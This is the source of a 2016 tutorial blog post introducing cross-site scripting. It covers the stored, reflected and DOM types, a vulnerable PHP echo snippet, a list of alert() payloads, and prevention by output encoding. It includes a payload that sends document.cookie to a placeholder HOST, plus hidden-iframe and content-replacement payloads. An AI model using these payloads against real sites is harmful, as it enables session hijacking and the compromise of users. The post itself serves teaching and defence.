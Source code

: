 ```yaml
---
layout:     post
title:      "Cross Site Scripting"
subtitle:   "Introduction to XSS"
date:       2016-08-25 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
category: "Web Security"
---
```

<h1>What is XSS?</h1>
<p>Cross Site Scripting (XSS) is a name of one of the most common vulnerability in web applications. It's third in the list of the newest <a href="https://www.owasp.org/index.php/Top10">OWASP Top Ten</a> document so it's essential to know how it works. </p>
<p>Browsers diplay the content of a website using a mix of HTML (HyperText Markup Language which is a core of a webpage) and JavaScript responsible for making things run in response of events (like clicking a button). Of course there are other essential elements like CSS to style the webpage but in order to perform a XSS attack we will only need HTML and Javascript. </p>
<p>Essence of XSS attack is to inject some malicous code (for example Javascript or other scripting language that can be opened in a browser) into the browser of client using vulnerable web application. That way, an attacker has an ability to execute any malicious code in victim's browser. </p>
<p>But why is it so powerul? Let's consider this example: You're running some simple WordPress website with small audience. As you don't want spammers to make comments under your posts, you enable the option to only publish comments allowed by yourself. In the meantime some malicous hacker wanted to destroy your webpage (who knows why but there are still people like that). He firstly tests if you really have to allow comments, and then injects into the comment box malicious JavaScript code that will steal cookies and send them to him. Now as you've got a notification that someone published a new comment, you open the WordPress admin page to see what someone has written. In the moment you view this comment, this malicous code steals your admin cookie and sends it to the attacker. Few hours later your site has been pawned. </p>
<p>Powefull, right? But enough story time for today, let's jump into some technical details. </p>








<h1>Potential results of XSS attack</h1>
<ul>
<li><b>Stealing session cookies</b>
<p>With that attacker is being able to steal someone's logged session - like in the story.</p>
{% highlight html %}
<svg onload=fetch(‘//HOST/?cookie=’+document.cookie)>
{% endhighlight %}
</li>
<li><b>Substituting a content of a website</b>
<p>Users can be tricked into thinking that "Your site have been hacked".</p>
{% highlight html %}
<svg onload=”document.body.innerHTML='<img src=//HOST/IMAGE>'”>
{% endhighlight %}
</li>
<li><b>Capture the keys pressed by the user</b>
<p>Ability to log what someone is writing... I don't have to say why it's useful ;)</p>

</li>
<li><b>Crash the browser</b>
<p>Local Denial Of Service Attack. Mostly frustrating.</p>
</li>
<li>
<b>Redirect user’s browser to another website</b>
<p>Attacker can redirect the browser to another webpage that may be prepared with some customized malware ready to attack victims operating system. </p>
{% highlight html %}
<iframe src=//HOST/ style=display:none></iframe>
{% endhighlight %}
</li>
<li>
<b>Creating fake HTML form</b>
<p>Where an attacker would be able to trick user into entering their credentials and form would send them to an attacker. </p>
</li>
</ul>

<h1>Types of XSS attacks</h1>
<p><b>Persistent (stored) XSS</b> - This type of attack relies on the fact that webpage may store some input, or file in a database. Just like in our story, comments were stored in the WordPress database. It consists of injecting the javascript code into the server side. That's why it's called stored. Every user that sees this stored content is a potential victim. </p>
<p><b>Reflected XSS</b> - When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. Victim usually unwittingly opens a link with some JavaScript code which is sent to the web application. Then this application sends back (that's why reflected) whatever the victim asked for with this JavaScript code resulting in executing it in the browser. </p>
<p>Let's take a look at this simple PHP code: </p>
{% highlight php %}
$username = $_GET[‘user’];
echo “<h1>Welcome, ” . $username . “!</h1>”;
{% endhighlight %}
<p>Which would take an username from the URL just like that: </p>
{% highlight html %}
http://example.com/welcome.php?user=Mike
{% endhighlight %}
<p>If you open the web and view the source code it would look like this</p>
{% highlight html %}
<h1>Hello, John!</h1>
{% endhighlight %}
<p>But what if we swap the name with some JavaScript code? </p>
{% highlight html %}
http://example.com/welcome.php?user=<script>alert("XSS")</script>
{% endhighlight %}
<p>After checking the source code of the same webpage opened with this URL, you would notice that the alert box with "XSS" text was triggered.   </p>
{% highlight html %}
<h1>Hello, <script>alert("XSS")</script>!</h1>
{% endhighlight %}
<p>Now with that knowledge you can enter some more malicous code. Reflected XSS attack ready ;)</p>

<p><b>DOM Based XSS</b> is an attack where the malicious code is executed as a result of modyfing DOM (Document Object Model). It's rarest type of XSS attack. Read more at <a href="https://www.owasp.org/index.php/DOM_Based_XSS">OWASP</a>.</p>

<h1>XSS Examples</h1>
<p><b>1. With script tag</b></p>
{% highlight html %}
<script>alert("XSS")</script>
{% endhighlight %}
<p><b>2. With body tag</b></p>
{% highlight html %}
<p><body onload=alert("XSS")></p>
{% endhighlight %}
<p><b>3. With img tag</b></p>
{% highlight html %}
<p><img src="blabla" onerror="alert("XSS")></img></p>
{% endhighlight %}
<p><b>4. Or any other tag</b></p>
{% highlight html %}
<svg onload=alert("XSS")>
{% endhighlight %}
{% highlight html %}
<x onmouseover=alert("XSS")>
{% endhighlight %}
<p><b>5. Resource tag like iframe</b></p>
{% highlight html %}
<iframe src=javascript:alert("XSS")>
{% endhighlight %}
<p><b>6. Or object tag</b></p>
{% highlight html %}
<object data=javascript:alert("XSS")>
{% endhighlight %}
<h1>How to prevent XSS?</h1>
<p>All right, as we know how XSS attacks works, let's move on to prevention. Essential thing to do is to filter any data sent from the user before viewing them in application (like "<" and ">", tag attributes or HTML entities ). </p>
{% highlight html %}
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;     
/ --> &#x2F;
{% endhighlight %}
<p>That method will prevent most of the XSS attacks but for the most sophisticated ones it may be helpful to read <a href="https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet">XSS Prevention Sheet</a>. Another helpful thing would be prevention on the client side - like installing NoScript addition. </p>

<p>As always - thanks for reading and exploring this topic with me. Now after better understanding of XSS we can look for vulnerabilities in many different web applications. Good luck and...</p>
<p>~ Stay safe! </p>
